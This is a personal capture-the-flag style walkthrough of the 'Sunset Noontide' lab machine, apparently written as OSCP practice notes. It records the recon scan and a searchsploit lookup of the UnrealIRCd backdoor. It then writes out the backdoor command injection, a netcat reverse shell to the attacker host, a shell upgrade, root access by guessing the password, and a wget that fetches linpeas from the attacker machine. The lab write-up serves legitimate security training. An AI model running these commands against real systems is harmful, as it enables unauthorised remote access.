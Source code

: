 Target is 192.168.54.120

connecting via openvpn

openvpn oscp.vpn

## 

[

](https://www.prestonzen.com/publications/cybersecurity/oscp/linux/sunset-noontide#h.9ds2jjg2j16)

Recon

nmap -sC -sV -p- -vv 192.168.54.120 

PORT     STATE SERVICE REASON  VERSION

6667/tcp open  irc     syn-ack UnrealIRCd (Admin email example@example.com)

6697/tcp open  irc     syn-ack UnrealIRCd

8067/tcp open  irc     syn-ack UnrealIRCd (Admin email example@example.com)

Service Info: Host: irc.foonet.com

  

IRC URL no dice

## 

[

](https://www.prestonzen.com/publications/cybersecurity/oscp/linux/sunset-noontide#h.1jza4kd87cf7)

Weaponization

searchsploit UnrealIRCd

------------------------------------------- ---------------------------------

 Exploit Title                             |  Path

------------------------------------------- ---------------------------------

UnrealIRCd 3.2.8.1 - Backdoor Command Exec | linux/remote/16922.rb

UnrealIRCd 3.2.8.1 - Local Configuration S | windows/dos/18011.txt

UnrealIRCd 3.2.8.1 - Remote Downloader/Exe | linux/remote/13853.pl

UnrealIRCd 3.x - Remote Denial of Service  | windows/dos/27407.pl

------------------------------------------- ---------------------------------

Shellcodes: No Results

searchsploit -v -w linux/remote/16922.rb

[i] Unable to detect version in terms: linux/remote/16922.rb

[i] Enabling 'searchsploit --strict'

-------------------------------- --------------------------------------------

 Exploit Title                  |  URL

-------------------------------- --------------------------------------------

UnrealIRCd 3.2.8.1 - Backdoor C | [https://www.exploit-db.com/exploits/16922](https://www.exploit-db.com/exploits/16922)

  

So it seems I literally only need to prepend my commands with "AB;" lol

## 

[

](https://www.prestonzen.com/publications/cybersecurity/oscp/linux/sunset-noontide#h.1z20b46igat6)

Exploitation

Now to test if the connection works

Checked ifconfig and I'm connected to the LAN via eth0 as 192.168.49.54

sudo tcpdump -i eth0 icmp

Now to connect to IRC

nc 192.168.54.120 6667 -vvv

While my hostname is being resolved I'll pass in a command here

AB;ping -c 1 192.168.49.54

![](https://lh3.googleusercontent.com/pcpTyZvUHQjOHMwN8MKmPV09_Cdn4cfry_mIOjpCAkYit9Ie8lVwuPTidqZmbOD_eq-N2ODxgFl9hea6zoObdMgFlGxy8clotrNXyxusidfottwPPfGNEeAsknuqyBpSjA=w1280)

The ping went through. Seems that even though the IRC failed to validate the command still goes through

Netcat listener time

nc -nvlp 7777

p has to be at the end 

Now to send the reverse shell connection from the target

AB;nc 192.168.49.54 7777 -e /bin/bash

We're in 👍

Now trifiling through home directory I find local.txt

Contains the user flag 

Shell Upgrade:

python3 -c 'import pty;pty.spawn("/bin/bash")'

## 

[

](https://www.prestonzen.com/publications/cybersecurity/oscp/linux/sunset-noontide#h.y55i3zihyx7o)

Privilege Escalation - Command & Control / C2

Now I want root after getting inside.

Method #1 - Guess

Actually try root

su root

root

The go to root's home

cd ~

There is proof.txt

root flag obtained 🏁

Method #2 - Run tools - linpeas

[https://www.kali.org/tools/peass-ng/#linpeas](https://www.kali.org/tools/peass-ng/#linpeas)

Upload linpeas.sh [https://linpeas.sh/](https://linpeas.sh/)

https://sushant747.gitbooks.io/total-oscp-guide/content/transfering_files.html

On Kali: python -m SimpleHTTPServer 9999

On Server: wget 192.168.49.54:9999/linpeas.sh

  

Guides utilized: 

- [https://musyokaian.medium.com/sunsetnoontide-vulnhub-walkthrough-94c62a4e9ba9](https://musyokaian.medium.com/sunsetnoontide-vulnhub-walkthrough-94c62a4e9ba9)
    
- [https://medium.com/@Infinity_/sunset-noontide-vulnhub-write-up-7fb6da18adb7](https://medium.com/@Infinity_/sunset-noontide-vulnhub-write-up-7fb6da18adb7)
    
-  [https://gabb4r.gitbook.io/oscp-notes/shell/upgrading-shell](https://gabb4r.gitbook.io/oscp-notes/shell/upgrading-shell)
    
- [https://0xdiwak.blogspot.com/2020/10/sunsetnoontide-walkthrough-vulnhub.html](https://0xdiwak.blogspot.com/2020/10/sunsetnoontide-walkthrough-vulnhub.html)